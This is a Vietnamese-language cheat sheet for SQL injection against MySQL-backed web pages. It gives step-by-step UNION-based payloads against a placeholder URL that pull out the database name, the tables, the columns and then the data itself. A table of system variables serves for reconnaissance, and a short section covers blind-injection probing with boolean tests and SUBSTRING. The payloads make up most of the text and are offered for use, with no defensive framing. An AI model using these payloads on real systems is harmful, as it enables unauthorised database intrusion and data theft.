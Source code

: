 ## check database khi biết cột lỗi;
- thay cột lỗi bằng database
`http://fakesite.com/report.php?id=-23 union select 1,2,database(),4,5-- -`

|Variable.Function|ahihi|Output|
|----------|-------------|--------------|
|@@hostname	|:|	Tên máy chủ hiện tại|
|@@tmpdir|	:	|Tept Directory|
|@@datadir|	:	|Thư mục Dữ liệu|
|@@version|	:	|Phiên bản của DB|
|@@basedir|	:	|Thư mục cơ sở|
|user()|	:	|Người dùng hiện tại|
|database()|	:	|Cơ sở dữ liệu hiện tại|
|version()|	:	|	Phiên bản|
|schema()|	:	|	Cơ sở dữ liệu hiện tại|
|UUID()|	:	|	Khóa UUID của Hệ thống|
|current_user()|	:	|Current User|
|current_user|	:	|Current User|
|system_user()|	:	|Current Sustem user|
|session_user()|	:	|Session user|
|@@GLOBAL.have_symlink|	:	|Check if Symlink Enabled or Disabled|
|@@GLOBAL.have_ssl|	:	|Check if it have ssl or not|



- lấy ra tên bảng 
```
http://fakesite.com/report.php?id=-23 union select 1,2,table_name,4,5 from information_schema.tables where table_schema="tên database"-- -

hoặc
,unhex(hex(group_concat(table_name))),2 from information_schema.tables where table_schema=database()-- -
```

-lấy ra tên cột:
```
http://fakesite.com/report.php?id=-23 union Select 1,2,column_name,4,5 from information_schema.columns where table_schema='tên database" and table_name='tablenamehere'-- -
```
hoặc thay đoạn lấy table =column

- trích dữ liệu:

```
http://fakesite.com/report.php?id=-23 union Select 1,2,concat(column1,column2),4,5 from tên bảng-- -
```

## Blind SQL Injection

- check : and 1=1 -> and 1=0 

- kiểm tra version :.. and subtring(@@version,1,1)=4 ( trong đó 4 là check version 4.0 /)

```
1. SUBSTRING(string,vị trí, số lượng): Hàm cắt chuỗi
vd:
SUBSTRING('dbo', 1, 1) = ‘d’
SUBSTRING('dbo', 2, 1) = ‘b’
SUBSTRING('dbo', 3, 1) = ‘o’
```
